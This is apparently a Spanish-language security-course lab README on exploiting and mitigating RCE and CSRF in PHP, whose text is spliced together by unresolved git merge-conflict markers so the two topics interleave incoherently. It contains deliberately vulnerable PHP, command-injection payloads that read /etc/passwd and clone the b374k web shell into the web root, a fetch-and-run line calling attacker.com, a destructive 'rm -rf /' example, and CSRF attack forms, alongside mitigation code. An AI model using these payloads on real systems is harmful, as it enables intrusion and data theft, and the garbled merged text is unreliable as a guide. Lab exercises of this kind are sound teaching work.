

# PPS-Unidad3Actividad7-Angel

Explotación y Mitigación de Cross-Site Request Forgery 

Tenemos como objetivos:

- Verificar las maneras de realizar ataques Remote Code Execution (RCE).

- Analizar el código de la aplicación que permite ataques de Remote Code Execution (RCE).

Explotación y Mitigación de Cross-Site Request Forgery (CSRF).

Objetivos:

- Comprobar las maneras en las que se puede realizar ataques Cross-Site Request Forgery (CSRF)

- Analizar el código de la aplicación que permite ataques de Cross-Site Scripting (CSRF)

- Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

---

## ¿Qué es RCE?

Es una vulnerabilidad de seguridad en la que un atacante puede ejecutar código arbitrario en un sistema de manera remota. Este tipo de vulnerabilidad es especialmente peligrosa porque permite que un atacante obtenga control sobre el servidor o sistema afectado, lo que podría tener consecuencias graves, como robo de datos, interrupción del servicio o acceso no autorizado a recursos sensibles.

En el contexto de los Server-Side Includes (SSI), RCE puede ocurrir cuando el servidor permite la ejecución de comandos o scripts del sistema a través de las directivas SSI. Si un servidor web no está correctamente configurado para prevenir la ejecución de comandos a través de SSI (por ejemplo, desactivando directivas como exec), un atacante podría inyectar comandos maliciosos dentro de un archivo SSI o una página web que se esté procesando.

Este tipo de ataque podría explotar vulnerabilidades en las directivas del SSI para ejecutar código arbitrario en el servidor. Los atacantes pueden hacer esto a través de un ataque de inyección en el cual se incluyen comandos del sistema que, al ser procesados por el servidor, se ejecutan sin la autorización adecuada.

Una mitigación para este tipo de vulnerabilidad es configurar correctamente el servidor web, deshabilitando las directivas peligrosas de SSI, como exec, y asegurando que el servidor no ejecute comandos externos de manera no controlada. También, es importante tener en cuenta otras prácticas de seguridad, como la validación de entrada y el uso de un entorno de ejecución restringido, para evitar la explotación de vulnerabilidades de este tipo.

Consecuencias de RCE:

• Acceso a información sensible (usuarios, archivos, configuración).

• Ejecución de comandos maliciosos (descarga y ejecución de malware).

• Escalada de privilegios y control total del sistema.

---

## ACTIVIDADES

- Leer la sección de [Inyección de comandos de la página de PortWigger](https://portswigger.net/web-security/os-command-injection)

- Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Remote Code Execution](./files/ExplotacionYMitigacionRCE.pdf)

- También y como marco de referencia, tienes [la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/08-Testing_for_SSI_Injection)
=======
## ¿Qué es CSRF?
El Cross-Site Request Forgery (CSRF) es un ataque donde un atacante engaña a un usuario autenticado (por ejemplo, alguien que está conectado a su cuenta bancaria online) para que haga algo no deseado en un sitio web sin su consentimiento.

En resumen, el atacante puede forzar al usuario a realizar una acción sin que se dé cuenta, usando su sesión activa. Por ejemplo, el atacante podría hacer que el usuario transfiera dinero sin saberlo.

Ejemplo:
Un usuario está conectado a su banco online. El atacante le envía un enlace malicioso. Cuando el usuario hace clic, el enlace hace una transferencia sin que él lo sepa.

## ACTIVIDADES A REALIZAR

* Leer detenidamente la sección de [Inyección CSRF de la página de PortWigger](https://portswigger.net/web-security/csrf)

* Leer el siguiente [documento sobre Explotación y Mitigación de ataques de Inyección CSRF](./files/ExplotacionYMitigacionCSRF.pdf) de Raúl Fuentes. Nos va a seguir de guía para aprender a explotar y mitigar ataques de inyección Cross-Site Request Forgery (CSRF)>
 
* También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.]<https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery>
>>>>>>> 20dc56ad1956ce1c52675428005c693bce7b5dd7

---

## Código vulnerable

En esta ocación vamos a ver una página en el que tenemos un input para meter una dirección ip.
El programa realizará un ping sobre la dirección que hayamos introducido.

Creamos un directorio llamado RCE y dentro un archivo llamado rce.php con el siguiente contenido.

~~~
<?php
if (isset($_POST['ip'])) {
        $ip = $_POST['ip'];
        // Ejecutar el ping y capturar la salida
        $output = shell_exec("ping -c 4 " . $ip);
        echo $output;
}
?>
<form method="post">
        <input type="text" name="ip" placeholder="Ejemplo: 8.8.8.8" required>
        <button type="submit">Hacer Ping</button>
</form>
~~~

El código permite que el usuario pueda introducir los símbolos ";" "&" y de esta manera podemos ejecutar otros comandos adicionales en el sistema.

## Explotación de RCE
---
Acceder a la URL y ejecutar un comando básico:
~~~
http://localhost/rce.php
~~~

Si introducimos una dirección ip se nos muestra si el servidor está accesible, aunque podemos **ver información del usuario** anidando consultas con el operador &, por ejemplo: 

~~~
8.8.8.8 & id
~~~

Si se muestra información del sistema o similar (uid=1000(user) gid=1000(user)), la aplicación es vulnerable.

**Intentar listar archivos del servidor:**

Podemos llegar a listar los archivos del directorio donde se encuentra el archivo rce.php con 
~~~
8.8.8.8 & ls
~~~
Si se muestran archivos del sistema en pantalla, el ataque funciona.

**Probar más comandos:**

~~~
8.8.8.8 & cat /etc/passwd
~~~

Si muestra el contenido de /etc/passwd, el atacante puede extraer credenciales.

**Intentar descargar y ejecutar malware:**

En este caso, para nuestro ejemplo, vamos a otorgar permisos de escritura a /var/www/html a la máquina lamp_webserver

~~~
sudo chmod -R 777 /var/www/html/
~~~

Introducimos codigo para concatenar la ip del servidor dns de Google, con descargar el proyecto git b374k: 
~~~
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
~~~

Si lo realiza, estará instalando en el directorio b374k un shell basado en PHP. Luego podremos acceder a él y ejecutar los comandos que queramos.

~~~
http://localhost/b374k/index.php
=======
Crear el archivo vulnerable: transfer1.php. Este archivo php está ubicado en la entidad bancaria online y nos permite realizar una transferencia.
~~~
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
$amount = $_POST["amount"];
echo "Transferidos $$amount";
}
?>
<form method="post">
<input type="number" name="amount">
<button type="submit">Transferir</button>
</form>
~~~

Como observamos en la siguiente captura, el código no comprueba si la solicitud viene de un lugar seguro, por lo que puede ser aprovechado por un atacante para realizar una transferencia sin que el usuario lo sepa.

### Explotación de CSRF
---
El atacante crea un archivo HTML malicioso (csrf_attack.html), que contiene un código como este:

~~~
<!DOCTYPE html>
<html>
<body>
	
</body>
</html>
~~~

Este archivo no está ubicado en la web del banco sino que está ubicada en una web del atacante o alguna utilizada por él. 
Fíjate que el enlace a este archivo http puede haberse hecho llegar a través de cualquier medio: email, o haber sido falsificada.

Cuando el usuario autenticado accede a esta página:

- La imagen no se carga realmente.

- El navegador ejecuta la petición a transfer.php automáticamente.

- Se transfiere dinero sin que el usuario lo sepa.

Revisamos el log de apache para confirmar el ataque. Normalmente está en /var/log/apache2/access.log, como nosotros lo tenemos en un contenedor docker, lo buscamos allí, bien en access.log o en other_vhosts_access.log.

~~~
docker exec lamp-php83 /bin/bash -c "tail -5 /var/log/apache2/other_vhosts_access.log"
>>>>>>> 20dc56ad1956ce1c52675428005c693bce7b5dd7
~~~

<<<<<<< HEAD
En este paso, el atacante tiene control total del sistema.

### Mitigaciones de RCE
Para las mitigaciones vamos a utilizar otros archivos: 

Este es el contenido de rce.php
~~~
<?php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>";
?>
~~~

El archivo rce.php nos va a permitar ejecutar comandos de forma que podemos llamarlo desde otros archivos o bien directamente de la forma:
~~~
http://localhost/rce.php?cmd=cat /etc/passwd
~~~

Por otra parte tenemos el archivo index.php 

~~~
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Ejecutar Comando</title>
</head>
<body>
    <h2>Ingrese el comando a ejecutar</h2>
    <form method="get" action="http://localhost/rce.php">
        <input type="text" name="cmd" placeholder="Ejemplo: whoami" required>
        <button type="submit">Ejecutar</button>
    </form>
</body>
</html>
~~~
que lo que hace es crearnos un input para solicitarnos el código a ejecutar y luego, llamar con él, a rce.php.

Vamos a modificar rce.php para mitigar las vulnerabilidades.

**Eliminar el uso de shell_exec()**
---
Si la ejecución de comandos no es necesaria, deshabilitar la funcionalidad completamente.

Código seguro (rce.php sin posibilidad de ejecución de comandos ya que se elimina totalmente)

~~~
<?php
die("Esta funcionalidad ha sido deshabilitada por razones de seguridad.");
?>
~~~

_Beneficios:_

- Bloquea cualquier intento de ejecución de código en el sistema.

- Evita ataques RCE de forma definitiva.

- No necesita más medidas de seguridad, ya que la ejecución de comandos es eliminada.

**Restringir Comandos Permitidos**

Si se necesita permitir algunos comandos específicos, usar una lista blanca (whitelist).

Código seguro (rce.php con lista blanca de comandos permitidos)

~~~
<?php
$allowed_cmds = ["ls", "whoami", "pwd"];
if (!isset($_GET['cmd']) || !in_array($_GET['cmd'], $allowed_cmds)) {
        die("Comando no permitido.");
}
$output = shell_exec($_GET['cmd']);
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
~~~

Permitimos la ejecución de comandos ls, whoami, pwd, el resto dará mensaje de "comando no permitido".

Ante la consulta:

~~~
http://localhost/rce.php?cmd=ls
~~~

si nos permite ejecutar el comando ls

Pero sin embargo no nos permite la consulta:

~~~
http://localhost/rce.php?cmd=cat /etc/passwd

~~~

_Beneficios:_

- Lista blanca de comandos permite solo los necesarios (ls, whoami, pwd).

- Evita ejecución de comandos peligrosos (rm -rf /, wget, curl, nc).

- Evita XSS con htmlspecialchars(), protegiendo la salida de comandos.

**Ejecutar Comandos con Escapes Seguros**
---

Si se necesita ejecutar comandos con argumentos, usar escapeshellcmd() para evitar inyección de comandos.

Código seguro (rce.php con escapes para argumentos)

~~~
<?php
if (isset($_GET['cmd'])) {
    // Obtener el comando de la URL
    $cmd = $_GET['cmd'];

    // Usar escapeshellarg para proteger la entrada
    $cmd_safe = escapeshellcmd($cmd);

    // Ejecutar el comando de manera segura
    $output = shell_exec($cmd_safe);
    if (empty($output)) {
            echo "Comando no permitido.";
    } else {
        // Mostrar la salida de forma segura
        echo "<pre>" . htmlspecialchars($output) . "</pre>";
    }
}
?>
~~~

- Escapa caracteres especiales con escapeshellcmd() para mayor seguridad.

> Si contienen caracteres especiales, exec no va a realizar ninguna consulta, por lo que comprobamos y mostramos aviso de error.
>
> Si queremos que sólo se utilicen comandos simples sin argumentos y sin concatenar, podemos añadir un paso de seguridad con escapeshellarg(). Cambiamos la línea:

~~~
    $cmd_safe = escapeshellarg($cmd);
~~~

Beneficios:

- escapeshellarg() protege argumentos, evitando que se concatenen con ;, &&, |.

- Evita inyección de comandos (wget http://attacker.com/shell.sh && bash shell.sh).

- Mayor flexibilidad, pero más seguro que la ejecución directa de shell_exec().

Ejemplo: Si alguien intenta enviar:

~~~
http://localhost/rce.php?cmd=ping 8.8.8.8; rm -rf /
~~~

La función **escapeshellarg()** convertirá la entrada en:  'ping 8.8.8.8; rm -rf/), eliminará todo el comando y no ejecuta nada. Por eso controlamos cadena vacía.

**Deshabilitar shell_exec() en PHP**

Si no se necesita ejecución de comandos en todo el servidor, deshabilitar las funciones peligrosas en php.ini.

Editar php.ini, para ello utilizamos el editor de texto nano (o el que prefiramos) para abrir la configuración de PHP de nuestro contenedor

~~~
docker exec -it lamp-php83 /bin/bash
~~~

Si estamos utilizando la pila LAMP con docker del laborario podemos ver en el archivo de configuración docker-compose.yml que hemos cambiado la ubicación de php:

Por lo tanto abrimos el archivo de configuración:

> Aquí una puntualización. Si estamos usando el escenario multicontenedor del entorno de pruebas, podemos ver como en el php.ini tenemos unas configuraciones mínimas, pero tenemos preparados dos ficheros de configuración: php.ini-production y php.ini-development. Si vamos a poner nuestro LAMP o bien en un entorno de producción o de desarrollo deberíamos de renombrar el archivo correspondiente como php.ini para que se establezcan esas configuraciones. Puedes descargarlo aquí el [php.ini](files/php.ini.rce) 
> 

~~~
sudo nano /usr/local/etc/php/php.ini
~~~

Buscar la línea disable_functions y agregar lo siguiente:

~~~
disable_functions = shell_exec, system, exec, passthru, popen, proc_open
~~~

Guardar los cambios y reiniciar Apache para aplicar los cambios

*Beneficios:*
- Bloquea la ejecución de comandos a nivel de servidor, sin necesidad de modificar el código PHP.
- Evita exploits y ejecución remota incluso si rce.php no está mitigado en el código.
- Es la mejor opción si no necesitas ejecutar comandos en PHP.

**Prueba Final**
---

Utilizamos el primer archivo vulnerable que teníamos y probamos intentar obtener el usuario con la URL con cmd=id:

~~~
http://localhost/rce.php?cmd=id
~~~

Si la mitigación funciona, se debería ver el mensaje "Comando no permitido." en pantalla. o en el caso de que utilizamos el entorno de pruebas, el error php:
=======
Como observamos en la captura anterior, el ataque CSRF se ejecutó correctamente.

- El log indica que el navegador envió una solicitud GET a transfer.php?amount=1000 desde
csrf_attack.html.
- El servidor respondió con 200 OK, lo que significa que la transacción se realizó sin que el usuario lo
notara.

Esto significa que transfer.php es vulnerable a CSRF porque no verifica el origen de la solicitud ni usa
protección con tokens.

Una variante es que podemos insertar un formulario automático en una página legítima, con una estética muy parecida al diseño original, para engañar a la víctima.

Crea el archivo csrf_attack2.html:
~~~
<!DOCTYPE<html>
<body>
        <form action="http://localhost/transfer.php" method="POST">
                <input type="hidden" name="amount" value="1000">
                <input type="submit">
        </form>
        
</body>
</html>
~~~

A continuación, el usuario realiza una transferencia, pero no se da cuenta que en realidad ha realizado una transferencia a la cuenta del atacante.

El ataque CSRF automático funcionó
- El log indica que el navegador envió una solicitud POST a transfer.php desde csrf_attack2.html.
- El servidor respondió con 200 OK, lo que significa que la transacción se ejecutó sin que el usuario lo
notara.

Esto significa que transfer.php sigue siendo vulnerable a CSRF en solicitudes automáticas porque no está
validando un token CSRF en la petición POST.

### Mitigaciones
---
**Verificando que transfer.php está protegiendo correctamente con el token CSRF**
---

- Modificamos el archivo transfer.php:

- Nos aseguramos de que el código tiene esta validación:

~~~
<?php
session_start();
// Generar un token CSRF si no existe
if (empty($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
// Solo permitir solicitudes POST con un token CSRF válido
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {die("CSRF detectado. Acción bloqueada.");
        }
        $amount = $_POST["amount"];
        echo "Transferidos $$amount";
}
?>
<form method="post">
        <input type="number" name="amount">
        <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
        <button type="submit">Transferir</button>
</form>
~~~

Con esta validación, transfer.php rechazará cualquier petición POST sin un token CSRF válido.

Probamos a ejecutar de nuevo csrf_attack2.html:

**Bloqueando Solicitudes CSRF con Encabezados HTTP**
---
Además del token CSRF, podemos bloquear peticiones automáticas exigiendo el encabezado X-Requested-With.

Modificar transfer.php para agregar esta verificación:

~~~
session_start();
// Generar un token CSRF si no existe
if (empty($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
// Solo permitir solicitudes POST con un token CSRF válido
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
                die("CSRF detectado. Acción bloqueada.");
        }
// Bloquear peticiones que no sean AJAX legítimas
        if (!isset($_SERVER['HTTP_X_REQUESTED_WITH']) || $_SERVER['HTTP_X_REQUESTED_WITH'] !=='XMLHttpRequest') {
                die("CSRF detectado. Acción no permitida.");
        }

        $amount = $_POST["amount"];
        echo "Transferidos $$amount";
}
?>
<form method="post">
        <input type="number" name="amount">
        <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
        <button type="submit">Transferir</button>
</form>
~~~

Probamos a ejecutar de nuevo csrf_attack2.html:

**Proteger con SameSite=Strict en Cookies**
---
Esta configuración impide que las cookies de sesión sean enviadas en solicitudes CSRF.
Editar la configuración de sesión en transfer.php:

`session_set_cookie_params(['samesite' => 'Strict']);`

`session_start();`

Esto evitará que un atacante pueda robar la sesión en peticiones automáticas.

Probamos a ejecutar de nuevo csrf_attack2.html:

**Probamos con todas la mitigaciones**
---
Aplicamos todas las mitigaciones:
~~~
<?php
// Configurar la cookie de sesión para bloquear ataques CSRF
session_set_cookie_params([
        'samesite' => 'Strict', // Bloquea solicitudes desde otros sitios
        'httponly' => true, // Bloquea acceso a la cookie desde JavaScript
        'secure' => false // Cambiar a true si usas HTTPS
]);
session_start();
// Generar un token CSRF si no existe
if (empty($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
// Solo permitir solicitudes POST
if ($_SERVER["REQUEST_METHOD"] !== "POST") {
        die("Error: Método no permitido");
}
// 1️ - Validar que el token CSRF está presente y es correcto
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']){
        die("CSRF detectado. Acción bloqueada.");
}
// 2️ - Validar que la solicitud proviene del mismo origen
if (!isset($_SERVER['HTTP_REFERER']) || parse_url($_SERVER['HTTP_REFERER'],PHP_URL_HOST) !== $_SERVER['HTTP_HOST']) {
        die("CSRF detectado: Referer inválido.");
}
// 3️ - Bloquear peticiones que no sean AJAX
if (!isset($_SERVER['HTTP_X_REQUESTED_WITH']) || $_SERVER['HTTP_X_REQUESTED_WITH'] !=='XMLHttpRequest') {
        die("CSRF detectado: No es una solicitud AJAX válida.");
}
// Si todas las validaciones pasan, procesar la transferencia
$amount = $_POST["amount"];
echo "Transferidos $$amount";
?>
<form method="post">
        <input type="number" name="amount">
        <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token'];
?>">
<button type="submit">Transferir</button>
</form>
~~~

Explicación de las correcciones:

- Bloquea todas las solicitudes GET (ya no se puede usar  para ataques CSRF).

- Verifica que el csrf_token coincida con el de la sesión.

- Verifica que la solicitud provenga del mismo dominio (HTTP_REFERER).

- Exige que las solicitudes sean AJAX (X-Requested-With: XMLHttpRequest).

> Si la mitigación está funcionando, la solicitud POST debería ser rechazada y deberías ver un mensaje como "CSRF detectado. Acción bloqueada." en la pantalla.
> Para hacer uso ahora de transfer.php tendríamos que hacer una petición más compleja, no es suficiente con introducir la ruta en el navegador.

>>>>>>> 20dc56ad1956ce1c52675428005c693bce7b5dd7
